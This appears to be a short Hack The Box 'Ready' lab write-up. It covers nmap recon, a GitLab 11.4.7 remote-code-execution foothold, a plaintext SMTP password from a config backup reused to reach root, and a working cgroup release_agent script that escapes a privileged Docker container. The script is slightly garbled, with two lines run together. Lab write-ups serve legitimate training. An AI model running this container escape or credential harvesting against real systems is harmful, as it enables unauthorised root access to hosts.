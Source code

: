 ```yaml
---
title: "HTB: Ready Writeup"
date: 2020-01-23
categories:
  - Write-Ups
tags:
  - writeup
  - hackthebox
  - linux
---
```


## Recon

### nmap
```
nmap -p- 10.10.10.220 -oA scans/nmap-full
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 20:44 EDT
Warning: 10.10.10.220 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.220
Host is up (0.021s latency).
Not shown: 59697 closed ports, 5836 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
oxdf@parrot$ nmap -p 22,5080 -sCV -oA scans/nmap-tcpscripts 10.10.10.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 20:45 EDT
Nmap scan report for 10.10.10.220
Host is up (0.055s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.18 seconds
```

Open Port 5080: is a GitLab port

This Gitlab version is 11.4.7 
Vulnerable to RCE
**CVE : CVE-2018-19571 (SSRF),CVE-2018-19585 (CRLF)**

`python3 -c 'import pty;pty.spawn("/bin/bash");'`
User: dude


`cat /opt/backup/gitlab.rb | grep pass`

found: gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"

`su root`
with given smtp pass

we're inside Docker Container, so cant access /root even after running root user.

Solution:

[Escaping Docker Privileged Containers](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)


```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /root/root.txt > $host_path/output" >> /cmd
chmod a+x /cmdsh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /output   #will print "cat /root/root.txt"
we can change command on line 29 to write own ssh ROOT user keys, to run as root
```